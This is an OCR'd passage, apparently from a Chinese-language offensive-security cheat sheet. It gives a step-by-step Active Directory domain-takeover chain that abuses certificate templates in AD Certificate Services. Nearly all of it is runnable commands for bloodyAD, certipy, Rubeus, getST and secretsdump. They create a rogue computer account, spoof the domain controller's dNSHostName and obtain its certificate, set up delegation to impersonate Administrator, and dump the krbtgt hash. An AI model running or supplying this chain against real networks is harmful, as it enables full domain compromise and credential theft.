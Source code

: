 	经过身份验证的用户可以操纵他们拥有或管理的计算机帐户的属性，并从 Active Directory 证书服务获取允许提升特权的证书。
	寻找ms-DS-MachineAccountQuota
	>python bloodyAD.py -d lab.local -u username -p 'Password123*' --host 10.10.10.10 getObjectAttributes  'DC=lab,DC=local' ms-DS-MachineAccountQuota 
	>默认情况下，在 Active Directory 中添加新计算机MachineAccountQuota = 10
	>python bloodyAD.py -d lab.local -u username -p 'Password123*' --host 10.10.10.10 addComputer cve 'CVEPassword1234*'
	>certipy account create 'lab.local/username:Password123*@dc.lab.local' -user 'cve' -dns 'dc.lab.local'
	>[ALTERNATIVE] 如果您是SYSTEM并且MachineAccountQuota=0：使用当前机器的票证并重置其 SPN
	>Rubeus.exe tgtdeleg
	>export KRB5CCNAME=/tmp/ws02.ccache
	>python bloodyAD -d lab.local -u 'ws02$' -k --host dc.lab.local setAttribute 'CN=ws02,CN=Computers,DC=lab,DC=local' servicePrincipalName '[]'
	>设置dNSHostName属性以匹配域控制器主机名
	>python bloodyAD.py -d lab.local -u username -p 'Password123*' --host 10.10.10.10 setAttribute 'CN=cve,CN=Computers,DC=lab,DC=local' dNSHostName '["DC.lab.local"]'
	>python bloodyAD.py -d lab.local -u username -p 'Password123*' --host 10.10.10.10 getObjectAttributes 'CN=cve,CN=Computers,DC=lab,DC=local' dNSHostName
	>索取票
	>certipy req 'domain.local/cve$:CVEPassword1234*@ADCS_IP' -template Machine -dc-ip DC_IP -ca discovered-CA
	>certipy req 'lab.local/cve$:CVEPassword1234*@10.100.10.13' -template Machine -dc-ip 10.10.10.10 -ca lab-ADCS-CA
	>使用 pfx 或在您的计算机帐户上设置 RBCD 以接管域
	>certipy auth -pfx ./dc.pfx -dc-ip 10.10.10.10
	>openssl pkcs12 -in dc.pfx -out dc.pem -nodes
	>python bloodyAD.py -d lab.local  -c ":dc.pem" -u 'cve$' --host 10.10.10.10 setRbcd 'CVE$' 'CRASHDC$'
	>getST.py -spn LDAP/CRASHDC.lab.local -impersonate Administrator -dc-ip 10.10.10.10 'lab.local/cve$:CVEPassword1234*'   
	>secretsdump.py -user-status -just-dc-ntlm -just-dc-user krbtgt 'lab.local/Administrator@dc.lab.local' -k -no-pass -dc-ip 10.10.10.10 -target-ip 10.10.10.10 
